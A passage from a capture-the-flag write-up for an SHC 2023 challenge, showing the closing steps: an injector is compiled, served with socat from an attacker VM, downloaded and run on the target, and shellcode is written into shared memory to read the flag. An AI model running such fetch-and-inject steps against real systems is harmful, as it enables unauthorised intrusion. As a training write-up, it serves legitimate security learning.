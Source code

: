     ```
    $ gcc -m32 -o inject inject.c
    ```
*   Serve it from the AWS VM (same as used for remote shell exploit):

    ```
    $ sudo socat FILE:inject TCP-LISTEN:80,reuseaddr
    ```
*   Download it on the remote SHC instance

    ```
    $ socat TCP:$AWS_IP:80 FILE:/tmp/inject,create
    $ chmod a+x /tmp/inject
    ```

*   Ensure that target flag file is exactly as we need it

    ```
    $ chmod 666 /home/GW/flag
    $ dd if=/dev/zero bs=38 count=1 of=/home/GW/flag
    $ ls -la /home/GW/flag
    -rw-rw-rw- 1 GW   GW      38 Oct 27 10:54 /home/GW/flag
    ```

*   Inject the shellcode into the shared memory segment

    ```
    $ /tmp/inject
    Payload size: 95 bytes
    ```

*   And, after a while...

    ```
    $ ls -la /home/GW/flag
    -rw-rw-rw- 1 GW   GW      38 Oct 27 10:57 /home/GW/flag

    $ cat /home/GW/flag
    shc2023{0p3n_4nd_mm4p_c4n_r34d_4_f1l3}
    ```


---

## `shc2023{0p3n_4nd_mm4p_c4n_r34d_4_f1l3}`




<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
